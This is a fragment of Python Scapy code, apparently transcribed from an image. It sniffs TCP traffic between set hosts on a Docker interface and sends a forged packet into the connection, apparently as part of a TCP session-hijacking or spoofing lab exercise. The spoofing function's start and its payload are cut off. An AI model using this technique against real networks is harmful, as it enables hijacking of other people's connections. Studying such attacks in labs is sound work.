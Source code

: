         pkt = ip/tcp/data
        send(pkt,verbose=0)
        ls(pkt)
        quit()

    f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
    sniff(filter=f, prn=spoof,iface='docker0')
